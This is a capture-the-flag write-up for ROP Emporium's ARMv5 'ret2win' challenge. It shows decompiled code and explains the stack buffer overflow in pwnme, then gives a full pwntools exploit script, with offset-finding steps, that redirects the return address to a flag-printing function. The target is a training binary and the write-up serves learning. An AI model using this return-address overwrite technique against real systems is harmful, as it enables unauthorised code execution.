


# Ret2win (ARMv5)

## ARMv5 architecture
user manual [Here](https://usermanual.wiki/Pdf/ARM20Architecture20Reference20Manual20ARMv5.108534978/view)
### Processor modes


### Calling convention

#### Arguments
`r0`, `r1`, `r2`, `r3`, `stack`
#### Results
`r0`, `r1`, `r2`, `r3`
### Frame structure
[framestructure](https://lukaswoodtli.github.io/arm_stack_frame.html)

## Reversing with Ghidra
### Main
```c
int main() {
  puts("ret2win by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```
### pwnme
```c
void pwnme() {
  char buf[32];
  
  memset(buf, 0, 0x20);
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don\'t worry about null bytes, we\'re using read()!\n");
  printf("> ");
  read(0, buf, 0x38);
  puts("Thank you!");
  return;
}
```
### ret2win (target)
```c
void ret2win() {
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

## The vuln
The `read` function reads `0x38` (`56`) bytes but the buffer is only `32` bytes long, this allows us to overflow the `buf` variable and write on the stack wherever we want (the `return address` in our case).

## The exploit
```py
from pwn import *
from time import sleep

#
# Context
#

e = context.binary = ELF('ret2win_armv5')

#
# ROP
#

target = 0x000105ec

#
# Find Offset
#

# launch qemu with payload
"""
python3 -c 'from pwn import *; print(cyclic(0x38))' | qemu-arm -L /usr/arm-linux-gnueabihf -g <port> ./ret2win_armv5
"""

# gdb-multiarch script
"""
symbol-file ret2win_armv5
set arch arm
target remote :<port>

b *pwnme+100
ni
i r pc

Output: 616a6160
Warning: The output bytes are offset by -1
"""

# calculate offset
"""
python3 -c 'from pwn import *; print(cyclic_find(bytes.fromhex(hex(int(input(), 16) + 1)[2:])) + 1)'
"""

offset = 36
info(f'Offset: {offset}')

#
# Exploit
#

payload  = b''
payload += b'A' * offset
payload += p32(target-4)

io = process(['qemu-arm', '-L', '/usr/arm-linux-gnueabihf', './ret2win_armv5'])
io.sendlineafter(b'> ', payload)
info(io.recvuntil(b'}\n').decode())

io.close()
```